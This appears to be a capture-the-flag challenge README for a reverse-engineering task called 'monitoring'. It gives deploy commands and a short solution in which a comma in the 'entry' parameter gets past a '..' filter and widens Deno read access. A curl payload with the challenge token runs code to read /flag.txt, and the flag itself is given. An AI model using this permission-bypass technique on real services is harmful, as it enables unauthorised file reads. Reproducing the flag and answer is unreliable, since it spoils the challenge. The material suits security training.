 # rev | monitoring

## Information

Нам удалось вчёрную получить на руки некоторые из сервисов, встроенных в различные компоненты Megalith, но, к сожалению, только в бинарном виде. В частности, нам достался какой-то из серверов системы мониторинга за населением Metra Veehkim, может получиться как-нибудь разобраться с ним и выяснить, какие данные о нас собирают Арбалеты?

We've managed to (not entirely legally) get our hands on some of the services embedded into the differents components of Megalith, but, sadly, only as binaries. Specifically, we've got one of the servers of the Metra Veehkim citizen monitoring system, do you think it could perhaps somehow help us figure out what kind of data the Arbalests are collecting about us?

## Deploy

Need whale deployment.

```sh
cd deploy
docker compose -p rev-monitoring up --build -d
```

## Public

Provide zip file: [public/monitoring.zip](public/monitoring.zip).

## TLDR

Find source code at the end of the file (e.g using `rabin2 -zzz`), extract it, perform simple reverse engineering (as usual the obfuscation basically stores all strings in an array).

The app executes our code from the "cmd" parameter using deno, and you can specify the entry to read using the "entry" parameter:

```js
const command = Bun.spawn(
  ["/usr/bin/deno", "run", `--allow-read=./${entry}`, cmdPath],
  {
    stderr: "ignore",
    cwd: "entries",
    env: {},
  }
);
```

However, ".." is banned in entry, but you can simply specify a second path using a comma in order to get read access to the root.

```sh
curl http://localhost:1984 -i -H "Monitor-Access-Token: MEGALITH_MONITORING_SYSTEM_EZRVJJCQ4ET3W25BONANMPWPQSRV7JXE" --data-raw '{"cmd":"console.log(new TextDecoder().decode(Deno.readFileSync(\"/flag.txt\")))","entry":"/,/"}'
```

## Writeup (ru)

TODO

## Writeup (en)

TODO

## Domain

No

## Cloudflare

Yes

## Flag

ctfcup{t00-m4ny-su55y-jS-runt1m3s-f7cc17249450a7fb}
